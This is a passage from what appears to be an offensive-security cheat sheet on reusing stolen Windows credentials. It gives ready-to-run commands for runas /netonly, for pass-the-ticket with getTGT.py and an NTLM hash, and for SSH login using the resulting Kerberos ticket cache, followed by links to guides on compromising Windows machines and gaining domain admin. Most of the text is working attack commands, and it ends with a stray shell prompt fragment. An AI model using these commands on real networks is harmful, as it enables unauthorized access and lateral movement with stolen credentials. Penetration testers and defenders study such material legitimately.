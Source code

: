 ## Runas 

```powershell
PS C:\> runas /netonly /user:DOMAIN\username "cmd.exe"
PS C:\> runas /noprofil /netonly /user:DOMAIN\username cmd.exe
```

## Pass the Ticket

```powershell
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user
[*] Saving ticket in user.ccache
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
klist
```

## SSH

:warning: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!)

```ps1
cp user.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)


[DC01]: PS>